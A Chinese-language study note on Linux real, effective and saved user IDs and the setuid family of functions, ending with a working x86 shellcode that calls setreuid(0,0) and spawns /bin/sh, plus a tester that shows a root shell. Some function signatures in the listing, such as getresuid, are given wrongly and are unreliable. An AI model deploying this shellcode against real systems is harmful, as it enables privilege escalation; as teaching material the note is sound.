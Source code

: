 # uid 之 ruid，euid，suid

## 1.基本概念

* RUID：real user id，程序执行前，命令行显示的用户
* EUID：effective user id，进程当前的权限身份，决定进程可以执行哪些操作，当不具有 suid 时，与 ruid 相同，否则开始被初始化为程序的拥有者。经常在程序执行期间进行改变，以改变执行权限
* SUID：saved user id，保存的有效用户 ID，用于后续可能恢复权限的情况



## 2.权限控制函数

设置的 id 必须为系统中存在的用户 id 或组 id，用户 id 存在于/etc/passwd 文件中，而组 id 存在于/etc/group 文件中

获取用户id/组id：

```c
//这些函数都没有出错返回
#include <unistd.h>
uid_t getuid(void);     //返回：调用进程的实际用户ID
uid_t geteuid(void);    //返回：调用进程的有效用户ID
uid_t getresuid(void);  //返回：调用进程的设置用户ID
gid_t getgid(void);     //返回：调用进程的实际组ID
gid_t getegid(void);    //返回：调用进程的有效组ID
gid_t getresgid(void);  //返回：调用进程的有效组ID
```

### 2.1 setuid()

```c
int setuid(uid_t uid);
```

首先请求内核将本进程的 ruid, euid 和 suid 都设置成函数指定的 uid, 若权限不够则请求只将 effective uid 设置成 uid, 再不行则调用失败

### 2.2 seteuid()

```c
int seteuid(uid_t euid);
```

无论什么情况，它只改变进程euid，而不改变ruid和suid，仅请求内核将本进程的 euid 设置成函数指定的 uid

### 2.3 setreuid()

```c
int setreuid(uid_t ruid,uid_t euid);
```

交换id



## 3.shellcode

Linux/x86 - setreuid(0, 0) + execve("/bin/sh") Shellcode (29 bytes)：

```c
$ gcc -fno-stack-protector -z execstack shellcode_tester.c -o shellcode
shellcode_tester.c: In function ‘main’:
shellcode_tester.c:25:2: warning: incompatible implicit declaration of built-in function ‘printf’ [enabled by default]
shellcode_tester.c:25:24: warning: incompatible implicit declaration of built-in function ‘strlen’ [enabled by default]
$ sudo chown root:root ./shellcode
$ sudo chmod u+s ./shellcode
$ ./shellcode
Length: 29
# id
uid=0(root) gid=1000(artur) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(artur)

*/

char shellcode[] = ""
	"\x31\xc0"		// clear eax, as we don't know its state
	"\xb0\x46"		// syscall setreuid
	"\x31\xdb"		// real user ID = 0
	"\x31\xc9"		// effective user ID = 0
	"\x99"			// saved set-user-ID = 0 (using EDX)
	"\xcd\x80"		// call it

	"\x96"			// clear eax, as we don't know its state after former syscall
	"\xb0\x0b"		// syscall execve
	"\x53"			// NULL string terminator
	"\x68\x2f\x2f\x73\x68"	// //sh
	"\x68\x2f\x62\x69\x6e"	// /bin
	"\x89\xe3"		// pointer to above string - path to the program to execve
	"\xcd\x80";		// call it

void main(void)
{
	printf("Length: %d\n",strlen(shellcode));
	((void(*)(void))shellcode)();
}
```

